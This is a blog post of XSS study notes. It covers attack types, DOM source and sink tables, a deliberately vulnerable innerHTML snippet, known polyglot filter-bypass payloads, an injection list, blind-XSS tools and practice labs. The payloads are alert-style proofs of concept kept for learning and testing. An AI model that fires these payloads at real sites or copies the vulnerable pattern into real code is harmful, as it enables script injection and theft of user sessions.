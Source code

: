 ```yaml
---
layout:     post
title:      XSS 
subtitle:   
date:       2020-01-09
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XSS
---
```


## XSS
Crose-site Scripting(XSS).
[XSS Introduce](https://owasp.org/index.php/Cross-site_Scripting_(XSS))
#### Reflective XSS
#### Stored XSS
example1:
[Myspace Worm - Stored XSS](https://samy.pl/popular/tech.html)

example2:
[Tweetdeck Worm - Stored XSS](https://threatpost.com/tweetdeck-taken-down-in-wake-of-xss-attacks/106597)

#### DOM XSS
##### DOM XSS - What to Look For?

|Sources|Sinks|
|-|-|
|document.url|element.innerHTML()|
|document.referrer|element.outerHTML()|
|location|eval()|
|location.href|setTimeout()|
|location.search|setInterval()|
|location.hash|document.write()|
|location.pathname|document.writeIn()|

##### DOM XSS -What does it look like?

```javascript
<!DOCTYPE html>
<html>
	<body>
		<script>
			var source = "Hello " + decodeURIComponent(location.hash.split("#")[1]); //Source
			var divElement = document.createElement("div");
			divElement.innerHTML = source; //Sink
			document.body.appendChild(divElement);
		</script>
	</body>
</html>
```

```
GET www.vulnerable-website.example#<img src="test" onerror="alert('XSS')">
```

##### XSS Polyglot #1(RSnake)
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,
83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromChar
Code(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(
88,83,83))</SCRIPT>
```
Multi-context, filter bypass based polyglot payload #1 (OWASP [XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet))

##### XSS Polyglot #2 (0xsobky)
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert()
)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/
--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
<https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot>

##### XSS Polyglot #3 (Ashar Javed)
```
'">><marquee><img src=x
onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouse
over=prompt(1)><script>prompt(1)</script>@gmail.com<isindex
formaction=javascript:alert(/XSS/)
type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&
lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img
src="http://i.imgur.com/P8mL8.jpg">
```
Multi-context, filter bypass based polyglot payload #2 (Ashar Javed [XSS Research](http://slides.com/mscasharjaved/cross-site-scripting-my-love#/))

#### Blind XSS


#### Flash-based XSS
#### Self XSS

## Best Practices
- start slow
- Don't get discouraged!
- Keep a list of common payloads
- Use Burp Intruder

**Injections list**
```
"
">
"><>
"><script>
"></script>
"><script>alert(1)</script>
"><script>confirm(1)</script>
...
```

## Tools
##### Tooling
* Blind 
    * XSSTrike
    * XSS Hunter
    * Sleepy Puppy
    * KnoXSS


[XSSTrike](https://github.com/s0md3v/XSStrike)

##### XSSHunter (Blind)
Payload:
* The vulnerable page's URI
* Origin of Execution
* The Victim's IP Address
* The Page Referer
* The Victim's User Agent
* All Non-HTTP-Only Cookies
* The Page's Full HTML DOM
* Full Screenshot of the Affected Page
* Responsible HTTP Request(If an XSS Hunter compatible tool is used)

## Labs

[bWapp](http://www.itsecgames.com/)

bWapp Section - A3 - Cross-Site Scripting (XSS)

```javascript
Cross-Site Scripting - Reflected (GET)
Cross-Site Scripting - Reflected (POST)
Cross-Site Scripting - Reflected (JSON)
Cross-Site Scripting - Reflected (AJAX/JSON)
Cross-Site Scripting - Reflected (AJAX/XML)
Cross-Site Scripting - Reflected (Back Button)
Cross-Site Scripting - Reflected (Custom Header)
Cross-Site Scripting - Reflected (Eval)
Cross-Site Scripting - Reflected (HREF)
Cross-Site Scripting - Reflected (Login Form)
Cross-Site Scripting - Reflected (phpMyAdmin)
Cross-Site Scripting - Reflected (PHP_SELF)
Cross-Site Scripting - Reflected (Referer)
Cross-Site Scripting - Reflected (User-Agent)
Cross-Site Scripting - Stored (Blog)
Cross-Site Scripting - Stored (Change Secret)
Cross-Site Scripting - Stored (Cookies)
Cross-Site Scripting - Stored (SQLiteManager)
Cross-Site Scripting - Stored (User-Agent)
```

Additional Labs
[PentesterLab](https://pentesterlab.com/exercises?dir=desc&only=free&sort=published_at)
Pentesterlab
* XSS and MYSQL FILE
* Web for Pentester
* Web for Pentester II
